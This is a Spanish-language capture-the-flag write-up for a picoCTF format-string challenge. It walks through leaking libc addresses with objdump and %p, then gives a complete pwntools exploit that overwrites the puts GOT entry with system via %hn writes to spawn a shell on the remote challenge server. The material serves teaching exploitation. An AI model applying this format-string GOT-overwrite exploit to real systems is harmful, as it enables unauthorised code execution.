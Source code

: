 En este caso, se nos da un binario, su código fuente, una *libc* y los *ld shared object files* que se utilizaron para compilarlo.

```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
    puts("Howdy gamers!");
    printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
    char *all_strings[MAX_STRINGS] = {NULL};
    char buf[1024] = {'\0'};

    setup();
    hello();    

    fgets(buf, 1024, stdin);    
    printf(buf);

    puts(normal_string);

    return 0;
}
```

Para poder ejecutarlo debemos lanzar [[pwninit]]:

```bash
./format-string-3 
```  
```format-string-3
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f3ef12833f0
%x
f13e1963
/bin/sh
```

Vemos que tenemos una vulnerabilidad de [[Format string]]. Además, si de alguna forma pudiéramos convertir el último *puts* a una llamada a *system* obtendríamos una shell. Por suerte, podemos hacerlo modificando la [[GOT]] (*Global Offset Table*).

Para ver dicha tabla podemos usar [[objdump]]:

```bash
objdump -R vuln
```
```objdump
format-string-3:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE
0000000000403fe8 R_X86_64_GLOB_DAT  __libc_start_main@GLIBC_2.34
0000000000403ff0 R_X86_64_GLOB_DAT  __gmon_start__@Base
0000000000403ff8 R_X86_64_GLOB_DAT  setvbuf@GLIBC_2.2.5
0000000000404060 R_X86_64_COPY     stdout@GLIBC_2.2.5
0000000000404070 R_X86_64_COPY     stdin@GLIBC_2.2.5
0000000000404080 R_X86_64_COPY     stderr@GLIBC_2.2.5
0000000000404018 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
0000000000404020 R_X86_64_JUMP_SLOT  __stack_chk_fail@GLIBC_2.4
0000000000404028 R_X86_64_JUMP_SLOT  printf@GLIBC_2.2.5
0000000000404030 R_X86_64_JUMP_SLOT  fgets@GLIBC_2.2.5
```

Vemos que la dirección de *puts* es `0x404018`. Queremos la de *system* sin embargo, tenemos la de *setvbuf*. Debemos encontrar la distancia entre estas dos en memoria:

```bash
objdump -T ./libc.so.6 | grep -E 'system|setvbuf'
```
```cmd
000000000004f760 g    DF .text  000000000000002d  GLIBC_PRIVATE __libc_system
000000000007a3f0 g    DF .text  0000000000000260  GLIBC_2.2.5 _IO_setvbuf
000000000007a3f0  w   DF .text  0000000000000260  GLIBC_2.2.5 setvbuf
000000000004f760  w   DF .text  000000000000002d  GLIBC_2.2.5 system
000000000014e1c0 g    DF .text  0000000000000068 (GLIBC_2.2.5) svcerr_systemerr
```

Tenemos las dos direcciones `0x7a3f0 -> setvbuf` y  `0x4f760 -> system`. Solo necesitamos el *offset* hasta el string `/bin/sh`:

```bash
./format-string-3
```
```format-string-3
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f0949b743f0
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p        
0x7f0949cd29630xfbad208b0x7ffc4cb45cd00x1(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)0x7025702570257025
/bin/sh
```

Vemos que nuestro input empieza en la posición 38. Ya podemos tratar de crear un script en [[python]] y con [[pwntools]]:

```python
#! /bin/python3

from pwn import *

binary = './format-string-3'
elf = ELF(binary)

def start():
    if args.REMOTE:
        return remote('saturn.picoctf.net', 53607)
    else: return process(binary)

r = start()

# These addresses are a bit fucked up.
# Since we technically only need to change 3 bytes in the address to change 
# puts -> system  
# we change two bytes at addr 0x404018 and two at 0x404019:
got_puts_p1 = p64(0x404018) # p64 makes the hex address into bytes
got_puts_p2 = p64(0x40401a) 

# Firstly get the address that the program prints out for us:
r.recvuntil(b'libc: 0x')
setvbuf_int = int(r.recvline().strip(), 16)

# Now we calculate the differences between setvbuf and system commands:
# 0x7a3f0 -> setvbuf
# 0x4f760 -> system
libc_addr = setvbuf_int - 0x7a3f0    # Calculamos la dir base de libc
system_addr = libc_addr + 0x4f760    # Calculaos la direccion de system

# Some debug info
r.info('setvbuf = %#x', setvbuf_int)
r.info('system = %#x', system_addr)

# p64 converts from a hex number to a 64-bit address
system = p64(system_addr, endian='big')
system_p1 = int.from_bytes(system[6:8]) # The last two bits
system_p2 = int.from_bytes(system[4:6]) # The last two with one left

# We don't know which of these are greater so we want to sort them since the 
# format %n specifier is cumulative we have to write the smallest first.
system_printer = {
    system_p1 : got_puts_p1,
    system_p2 : got_puts_p2,
}

system_printer = dict(sorted(system_printer.items())) # sort it

# We want to calculate the difference between the first and second one
diffs = []
last = 0
for item in system_printer.items():
    diffs.append(item[0] - last)
    last = item[0]

payload_offset=38 + 4    # Tamaño de la propia direccion

# Compose the payload
payload_start = b''
payload_end = b''
for i, item in enumerate(system_printer.items()):
    payload_start += b'%%%dc' % diffs[i] + b'%%%d$hn' % payload_offset
    payload_end += item[1]
    payload_offset += 1

# This program segfaults like 1/10 times probably due to this:
padding = 8 - len(payload_start) % 8 

# This is how the payload will look:
# %[value]c%[index]$[write_type]%[value]c%[index]$[write_type][padding][address]
payload = payload_start + b'a'*padding + payload_end

# print the payload
print(payload.hex('-'))

r.sendline(payload)

# Give the user the iteractive shell
r.interactive()
```